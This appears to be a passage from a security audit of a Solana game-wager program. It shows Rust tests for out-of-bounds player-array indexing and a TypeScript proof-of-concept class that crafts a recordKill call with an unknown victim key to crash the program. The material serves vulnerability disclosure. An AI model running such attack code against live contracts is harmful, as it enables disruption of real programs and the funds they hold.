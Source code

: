 ```rust

        // Any array access with this index would be far out of bounds
        assert!(large_index >= game_session.team_a.players.len());
    }

    #[test]
    fn test_parallel_array_corruption() {
        let mut game_session = create_test_game_session();

        // Fill team normally
        for i in 0..5 {
            game_session.team_a.players[i] = Pubkey::new_unique();
            game_session.team_a.player_kills[i] = i as u16;
            game_session.team_a.player_spawns[i] = (i + 10) as u16;
        }

        // Corrupt one array through OOB write (simulated)
        // This could desync parallel arrays
        let invalid_index = 6; // Beyond bounds

        // If this were allowed:
        // game_session.team_a.player_kills[invalid_index] = 999;
        // Now kills array has data beyond player array bounds
    }
}
```

### Real-World Memory Corruption Attack
```typescript
class MemoryCorruptor {
    async corruptGameState(sessionId: string): Promise<void> {
        // 1. Join game normally to get valid player position
        await this.joinGame(sessionId, 0); // Team 0

        // 2. Trigger conditions that cause OOB index calculation
        try {
            // Send crafted inputs that cause invalid index calculation
            await this.wagerProgram.methods
                .recordKill(
                    sessionId,
                    0, // Killer team
                    this.attackerKeypair.publicKey,
                    1, // Victim team
                    this.generateCraftedVictimKey() // Causes invalid index
                )
                .accounts({
                    gameSession: this.getSessionPDA(sessionId),
                    gameServer: this.gameServerKeypair.publicKey,
                })
                .signers([this.gameServerKeypair])
                .rpc();

        } catch (error) {
            // Program likely crashed due to OOB access
            console.log("Memory corruption attack successful - program crashed");
        }
    }

    private generateCraftedVictimKey(): PublicKey {
        // Generate key that doesn't exist in player arrays
        // This causes find_player_index to return invalid index
        return Keypair.generate().publicKey;
    }
```